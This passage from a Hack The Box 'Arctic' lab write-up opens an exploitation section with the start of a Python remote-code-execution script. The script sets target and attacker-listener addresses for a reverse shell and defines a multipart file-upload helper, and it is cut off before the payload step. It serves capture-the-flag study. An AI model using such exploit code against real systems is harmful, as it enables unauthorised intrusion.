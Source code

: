 ## Exploiting

![Untitled](/HTB/arctic-5.png)

We have one exploit with **RCE** so let’s check what it does.

```python
#!/usr/bin/python3

from multiprocessing import Process
import io
import mimetypes
import os
import urllib.request
import uuid

rhost = "10.10.10.11"  # Dirección IP del host de destino
rport = 8500           # Puerto del host de destino
lhost = "10.10.14.9"   # Dirección IP de tu máquina (el atacante)
lport = 4444           # Puerto en tu máquina para recibir la conexión inversa
filename = uuid.uuid4().hex

class MultiPartForm:

    def __init__(self):
        self.files = []
        self.boundary = uuid.uuid4().hex.encode('utf-8')
        return

    def get_content_type(self):
        return 'multipart/form-data; boundary={}'.format(self.boundary.decode('utf-8'))

    def add_file(self, fieldname, filename, fileHandle, mimetype=None):
        body = fileHandle.read()

        if mimetype is None:
            mimetype = (mimetypes.guess_type(filename)[0] or 'application/octet-stream')

        self.files.append((fieldname, filename, mimetype, body))
        return

    @staticmethod
    def _attached_file(name, filename):
        return (f'Content-Disposition: form-data; name="{name}"; filename="{filename}"\r\n').encode('utf-8')

    @staticmethod
    def _content_type(ct):
        return 'Content-Type: {}\r\n'.format(ct).encode('utf-8')

    def __bytes__(self):
        buffer = io.BytesIO()
        boundary = b'--' + self.boundary + b'\r\n'

        for f_name, filename, f_content_type, body in self.files:
            buffer.write(boundary)
            buffer.write(self._attached_file(f_name, filename))
            buffer.write(self._content_type(f_content_type))
            buffer.write(b'\r\n')
            buffer.write(body)
            buffer.write(b'\r\n')

        buffer.write(b'--' + self.boundary + b'--\r\n')
```